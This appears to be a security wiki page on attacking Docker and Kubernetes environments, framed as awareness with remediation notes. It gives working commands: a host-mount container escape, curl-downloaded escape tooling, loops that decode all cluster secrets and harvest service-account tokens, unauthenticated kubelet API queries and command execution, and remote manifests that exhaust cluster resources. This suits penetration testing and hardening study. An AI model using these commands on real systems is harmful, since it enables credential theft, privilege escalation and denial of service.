



# Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging insecure mount](#leveraging-insecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)
      - [Service Account secrets](#service-account-secrets)
    - [Interacting with kubelet](#interacting-with-kubelet)
    - [Causing DoS](#causing-dos)
      - [For Kubernetes API](#for-kubernetes-api)
      - [Kubernetes Nodes](#kubernetes-nodes)

This wiki aims to summarize many of the most interesting hacking and discovery approaches to identify and exploit missconfigurations in containerized environments.
Check [Container Security In Depth](../../container-security-in-depth.md) for understanding proper security measures to be applied to reduce the risk and likelihood of success of an attacker.

## Docker

### Leveraging insecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```


### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```



Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-insecure-mount](#leveraging-insecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:

```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```

Get all volumes mounted from secret in host:

```bash
for container in $(crictl ps | tail -n+2 | awk {'print $1'});do
  for volume in $(crictl inspect $container | jq -r .status.mounts[].hostPath |  grep "kubernetes.io~secret");do
    for data in $(ls ${volume}); do
      cat ${volume}/${data}
    done
  done
done
```

> \[!NOTE\]
> Above automation needs to be executed in each of the nodes to retrieve the node specific secrets mounted as volumes for the containers. Requires root permission, but evidences that the secrets are accessible. In an ideal scenario, the administrator shall not access the real secrets of an application of the bank, only because he should manage the infra. Makes sense?

Summary:

- Secrets are accessible either by environment variables or mounts. This is not a big challenge to retrieve, so RBAC takes a lot of importance in protecting the organization as well as using dynamic secret retrieval with Vault Managers instead of leveraging kubernetes secrets directly.
- Secrets are defined in base64 and therefore **not encrypted**. If someone has `read` permission over secrets, it is trivial to retrieve the real value of those.

#### Service Account secrets

By default if not properly configured, a kubernetes cluster mounts the `default` service account in each `namespace` for each pod deployed there. Also, other service accounts may have been created in the cluster and mapped against a pod (or deployment, daemonsets, statefulsets definitions).

These service accounts are mounted in `/var/run/secrets/kubernetes.io/serviceaccount/` of the pod as shown in below example.



A `"good"` hacking practice is to obtain all service accounts that are visible (depending on the permissions), trying to get a more privileged sa than the user permissions (e.g. Jenkins with `Kubernetes Cloud` is likely to have interesting permissions.)

```bash
for secret in $(kubectl get pods --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  mounts_=$(kubectl exec -it ${name} -n ${namespace} -- ls /var/run/secrets/kubernetes.io/serviceaccount/)
  token=$(kubectl exec -it ${name} -n ${namespace} -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
  echo -e "\e[32mPod: $name in $namespace:\e[0m\n\e[34mSA mounts\n $mounts_:\n token $token\e[0m\n\n"
done
```



> \[!CAUTION\]
> Notice that not all the returns are successful. As explained in other chapter, using secure images can reduce the attack surface. There are very limited images such as the ones built from scratch or distroless that do not have even `ls` or `cat` commands available. It could also happen that the system calls are filtered with `seccomp`. Having said that, as you notice in the screenshot, having exec permissions is quite critical to be able to retrieve majority of the secrets of the cluster and therefore the RBAC must be well defined and tight to protect the organization.

### Interacting with kubelet

If kubelet service is not authorized (it is not common, but could happen) we may be able to interact with the api to compromise the cluster.

There is no documentation about the API perse available for the public. However the code is available here: [Kubelet server](https://github.com/kubernetes/kubernetes/blob/4a6935b31fcc4d1498c977d90387e02b6b93288f/pkg/kubelet/server/server.go). The api definitions and the routes are exposed here.

Useful reference: [Blog about kubelet API](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)

Examples:

1. Retrieve pods running in node.

```bash
curl --insecure https://172.31.41.69:10250/pods
```

2. Get logs of pod and container.

```bash
curl --insecure https://172.31.41.69:10250/containerLogs/default/kube-hunter-2mhkq/kube-hunter
```

3. Get running pods

```bash
curl --insecure https://172.31.41.69:10250/runningpods
```

4. List all kubelet available logs. Including `user-data, calico, journal, pods, syslog, etc.`. Many relevant information that can help to build a successful exploitable path.

```bash
curl --insecure https://172.31.41.69:10250/logs/
```

5. Get specific logs:

```bash
curl --insecure https://172.31.41.69:10250/logs/amazon/ssm/errors.log
```

To fix this a proper authorization strategy must be present in kubelet configuration (`/var/lib/kubelet/config.yaml`)

> \[!TIP\]
> Check this repository for more user-friendly interaction with kubelet API. [Cyberark kubeletctl](https://github.com/cyberark/kubeletctl)

```bash
sudo sh -c "curl -L https://github.com/cyberark/kubeletctl/releases/download/v1.9/kubeletctl_linux_amd64 -o /usr/local/bin/kubeletctl && chmod a+x /usr/local/bin/kubeletctl"
```

1. Getting pods:

```bash
kubeletctl pods --server 172.31.41.69
```

2. Exec a command inside the container.

```bash
kubeletctl run "<command-inside-container>" -p <pod-id> -c <container-name> -n <namespace>  --server 172.31.41.69
```

### Causing DoS

#### For Kubernetes API

There is an interesting project available (either not longer being maintained actively) [kube-stresscheck](https://github.com/giantswarm/kube-stresscheck).

Executing it is as simple as:

```bash
kubectl apply -f https://raw.githubusercontent.com/giantswarm/kube-stresscheck/master/examples/cluster.yaml
```

#### Kubernetes Nodes

There are as well other projects or utilities that can help to crash kubernetes nodes or the workloads allocated in them if there is no proper strategy of Quality of Service implemented.

For example [container-stress](https://github.com/mohsenmottaghi/container-stress) can fulfill this.

If there are no proper restrictions in place in terms of `limits` for the workloads, executing this container can allow to take all the resources available at the cluster.

```bash
kubectl apply -f https://raw.githubusercontent.com/mohsenmottaghi/container-stress/master/stress-deployment.yml
```